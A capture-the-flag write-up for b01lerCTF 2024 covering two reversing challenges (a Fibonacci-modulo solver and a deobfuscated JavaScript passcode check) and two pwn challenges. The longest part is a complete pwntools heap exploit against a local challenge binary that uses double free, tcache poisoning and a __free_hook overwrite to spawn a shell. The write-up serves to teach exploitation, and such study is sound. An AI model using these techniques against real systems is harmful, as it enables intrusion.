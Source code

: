 ```yaml
---
title: "BoilerCTF Write-up"
date: 2024-04-15
draft: false
tags : ["write-up", "b01lerctf"]

---
```


## Reverse
### Annnnnnny-Second-Now

The function `super_optimized_calculation` is a Fibonacci generator.
To solve this chall, we just use the 90th Fibonacci number and modulo it by each number in the v6 array.
![alt text](images/image.png)
Code: 
```python
v6=[0]*25  

v6[0] = 35831;
v6[1] = 143;
v6[2] = 1061;
v6[3] = 877;
v6[4] = 29463179;
v6[5] = 229;
v6[6] = 112;
v6[7] = 337;
v6[8] = 1061;
v6[9] = 47;
v6[10] = 29599;
v6[11] = 145;
v6[12] = 127;
v6[13] = 271639;
v6[14] = 127;
v6[15] = 353;
v6[16] = 193;
v6[17] = 191;
v6[18] = 337;
v6[19] = 1061;
v6[20] = 193;
v6[21] = 353;
v6[22] = 269;
v6[23] = 487;
v6[24] = 245;

a = 2880067194370816120 & ((1<<64)-1)

for i in v6:
    print(chr(a%i),end='')

```
### js-safe

After deobfuscating the code, we can see that the function `addToPassword` use some operation to check the pass code. If true, it uses this pass code as a key to decrypt the AES encrypted flag.

```javascript
function addToPassword(_0x43b7e8) {
    if (_0x12b1c8.length < 0x6) {
      _0x12b1c8 += _0x43b7e8;
      _0x38a66f();
      if (_0x12b1c8.length === 0x6) {
        let _0xf3bbf = Array(0x6);
        for (let _0x2c8c6a = 0x0; _0x2c8c6a < 0x6; _0x2c8c6a += 0x1) {
          _0xf3bbf[_0x2c8c6a] = _0x12b1c8[_0x2c8c6a].charCodeAt(0x0);
        }
        let _0x4cedc7 = true;
        _0x4cedc7 &= _0xf3bbf[0x4] == _0xf3bbf[0x1] - 0x4;
        _0x4cedc7 &= _0xf3bbf[0x1] == (_0xf3bbf[0x0] ^ 0x44);
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x2] - 0x7;
        _0x4cedc7 &= _0xf3bbf[0x3] == (_0xf3bbf[0x2] ^ 0x25);
        _0x4cedc7 &= _0xf3bbf[0x5] == (_0xf3bbf[0x0] ^ 0x14);
        _0x4cedc7 &= _0xf3bbf[0x4] == _0xf3bbf[0x1] - 0x4;
        _0x4cedc7 &= _0xf3bbf[0x0] == (_0xf3bbf[0x3] ^ 0x22);
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x2] - 0x7;
        _0x4cedc7 &= _0xf3bbf[0x0] == _0xf3bbf[0x5] + 0xc;
        _0x4cedc7 &= _0xf3bbf[0x2] == _0xf3bbf[0x4] + 0x47;
        _0x4cedc7 &= _0xf3bbf[0x2] == (_0xf3bbf[0x5] ^ 0x13);
        _0x4cedc7 &= _0xf3bbf[0x5] == (_0xf3bbf[0x3] ^ 0x36);
        _0x4cedc7 &= 0x52 == _0xf3bbf[0x3];
        if (_0x4cedc7) {
          document.getElementById("display").classList.add("correct");
          let _0x401b01 = CryptoJS.AES.decrypt("U2FsdGVkX19WKWdho02xWkalqVZ3YrA7QrNN4JPOIb5OEO0CW3Qj8trHrcQNOwsw", _0x12b1c8).toString(CryptoJS.enc.Utf8);
          console.log(_0x401b01);
          document.getElementById("display").textContent = _0x401b01;
        } else {
          document.getElementById("display").classList.add("wrong");
        }
      }
    }
}
```
After calculating, we get the pass code is `p4wR0d`. Use this pass code to decrypt the flag.

Flag: `bctf{345y-p4s5w0rd->w<}`


## Pwn
### shall-we-play-a-game

Because we can input v7 with the length 86, we can overwrite the return address of the function `main` to the address of the function `global_thermo_nuclear_war` to get the flag.


```python
from pwn import *


```
### easy-note

This challenge give us a menu which have 5 options: add, delete, view, edit and resize. The binary allow us to modify the content of note whatever it is free or not. To solve it, I use the UAF and tcache poisoning technique to get the shell.

First, we will use double free to leak the address of heap.
```python
add(0,0x80) # use for heap leak
add(1,0x80) # use for libc leak
add(2,0x80) # Prevent consolidation with top chunk

# Use double free to leak heap address
delete(0)
delete(0)

view(0)

heap =u64(p.recvline().strip().ljust(8, b'\x00')) - 0x260
log.info('[+] Heap base: '+hex(heap))
```
With heap base address, I can get chunk inside the `tcache_perthread_struct` by overwriting the fd of the chunk at index 0(now it is 0x80 tcache). 


```python
edit(0,8,p64(heap+0x10))
```
Next, I allocate 2 chunks to get the chunk inside the `tcache_perthread_struct`. Then, I overwrite the size value of the 0x80 tcache bin, make it look like full.
```python
add(3,0x80)
add(4,0x80)
edit(4,8,p64(0x0700000000000000))
```
Now, I free the chunk at index 1 to make it into the unsorted bin and leak the libc address.

```python
delete(1)
view(1)
```
With libc address, I edit the first 0x80 tcache value is __free_hook and make the size value of 0x80 tcache bin is 0. Then, I allocate a 0x80 chunk to get the __free_hook address. 
```python
edit(4,0x78+8,b'\x00'*0x78+p64(libc.sym['__free_hook']))
add(5,0x80)
```
Finally, I overwrite the __free_hook with the address of system and get the shell.
```python
edit(5,8,p64(libc.sym['system']))
edit(0,8,'/bin/sh\x00')
delete(0)

```

#### Full exploit
```python
from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

p = process([exe.path])



def add(pos,size):
    p.sendline(b'1')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
def delete(pos):
    p.sendline(b'2')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
def view(pos):
    p.sendline(b'3')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())    
def edit(pos,size,mes):
    p.sendline(b'4')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
    p.sendline(mes) 

def resize(pos,size):
    p.sendline(b'6')
    p.recvuntil(b'Where?')
    p.sendline(str(pos).encode())
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())


add(0,0x80)
add(1,0x80)
add(2,0x80)

delete(0)
delete(0)

view(0)

heap =u64(p.recvline().strip().ljust(8, b'\x00')) - 0x260
log.info('[+] Heap base: '+hex(heap))

# tcache poisoning

edit(0,8,p64(heap+0x10))
add(3,0x80)
add(4,0x80)
edit(4,8,p64(0x0700000000000000))

# Leak libc
delete(1)
view(1)

libc.address = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x3ebca0+0x3c000
log.info('[+] Libc base: '+hex(libc.address))
log.info("[+] Free hook address: "+hex(libc.sym['__free_hook']))

edit(4,0x78+8,b'\x00'*0x78+p64(libc.sym['__free_hook']))
add(5,0x80)

edit(5,8,p64(libc.sym['system']))
edit(0,8,'/bin/sh\x00')
delete(0)

p.interactive()
```
